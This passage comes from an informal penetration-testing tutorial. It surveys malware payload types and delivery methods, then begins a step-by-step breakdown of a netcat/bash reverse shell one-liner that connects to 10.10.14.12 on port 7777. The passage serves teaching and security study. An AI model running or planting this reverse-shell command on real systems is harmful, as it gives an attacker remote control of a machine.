 2. **Viruses**: Unlike Trojan horses, these little buggers can make copies of themselves and spread around. Once they infect a system, they usually bring trouble with them.

3. **Worms**: These are like the virus, but they're super good at traveling through networks without needing any help from humans. They can cause chaos by stealing data or messing up systems.

4. **Ransomware**: This type of payload is all about money. It locks up your files and demands cash to unlock them again. The goal is simple: get paid by the bad guys.

5. **Rootkits**: These are super stealthy and give attackers full control over a system. They can hide themselves, steal your data, or even take over your computer remotely.

6. **Logic Bombs**: These payloads are like ticking time bombs. They're set to go off under certain conditions, like a specific date or after a certain number of times they've been run. When they explode, they can cause serious damage.

### Payload Delivery Methods

Payloads can be delivered through various means, including:

- Email attachments
- Malicious websites
- Exploiting software vulnerabilities
- Social engineering tactics


### One-Liners Examined

#### Netcat/Bash Reverse Shell One-liner

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

Alright, so the commands above are basically like a one-liner you might hear on a Linux system to set up a Bash shell over a network socket using something called Netcat. We touched on this way back in the Bind Shells section. It's something people usually just copy and paste without really getting what it does. But let's break it down piece by piece, shall we?

#### Remove /tmp/f

```shell-session
rm -f /tmp/f;
```

So, if the `/tmp/f` file is hanging around, we'll just go ahead and delete it with `rm`. And don't worry if it ain't there—the `-f` flag tells `rm` to chill out and not freak out if the file's MIA. Plus, we're using a semi-colon to make sure these commands happen one after the other, like a boss!

#### Make A Named Pipe


```shell-session
mkfifo /tmp/f;
```

Creates a FIFO named pipe file at the spot you tell it to. Here, /tmp/f is the named pipe file, and the semicolon (`;`) helps run the command one after the other.
